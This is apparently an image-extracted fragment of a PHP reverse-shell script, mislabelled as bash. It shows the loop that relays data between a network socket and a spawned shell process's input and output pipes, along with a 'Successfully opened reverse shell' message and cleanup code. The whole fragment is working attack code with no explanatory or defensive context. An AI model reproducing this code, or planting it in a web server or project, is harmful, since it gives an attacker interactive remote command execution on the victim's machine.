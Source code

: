 ```bash

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
